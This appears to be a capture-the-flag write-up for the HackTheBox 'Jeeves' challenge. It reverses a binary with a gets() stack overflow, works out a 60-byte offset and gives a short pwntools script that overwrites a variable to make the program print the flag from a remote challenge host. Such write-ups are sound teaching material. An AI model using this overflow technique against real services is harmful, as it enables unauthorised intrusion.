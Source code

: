 ```yaml
---
layout: post
title: Binary Exploitation&#58; HacktheBox/Jeeves
---
```


# HacktheBox Jeeves Write-up

Check file type:
```
└─$ file jeeves
jeeves: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped
```

Check securities:
```
└─$ checksec --file=jeeves  
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   70 Symbols	  No	0		3		jeeves
```

Run the program, we see that it simply prompts us for a name and returns that name in a greeting.
```
└─$ ./jeeves 
Hello, good sir!
May I have your name? Jake
Hello Jake, hope you have a good day!
```

### Reversing

Looking at the ```main()``` function, we see a clear buffer overflow.
```c
undefined8 main(void)

{
  char local_48 [44];
  int local_1c;
  void *local_18;
  int local_c;
  
  local_c = -0x21523f2d;
  printf("Hello, good sir!\nMay I have your name? ");
  gets(local_48);
  printf("Hello %s, hope you have a good day!\n",local_48);
  if (local_c == 0x1337bab3) {
    local_18 = malloc(256);
    local_1c = open("flag.txt",0);
    read(local_1c,local_18,0x100);
    printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",local_18);
    close(local_1c);
  }
  return 0;
}
```

Pretty much anytime ```gets()``` is included in a binary, it is pwnable. We also see that ```local_c``` is initiated and to get the flag we must overwrite it's contents with ```0x1337bab3```. Should be simple enough!

### Pwn

First we need to find the offset to our variable. Even though PIE is enabled, the offsets should be the same according to ghidra. We can take the offset of our input, and subract the offset of ```local_c```. 
```
>>> hex(0x48 - 0xc)
'0x3c'
>>> 0x3c
60
```

Now we know our offset. Time to craft our exploit.
```python
#!/usr/bin/env python3

from pwn import *

payload = b"A"*60 + p64(0x1337bab3)

p = remote("165.232.40.36", 32687)

p.sendline(payload)

p.interactive()
```

Et Voila!


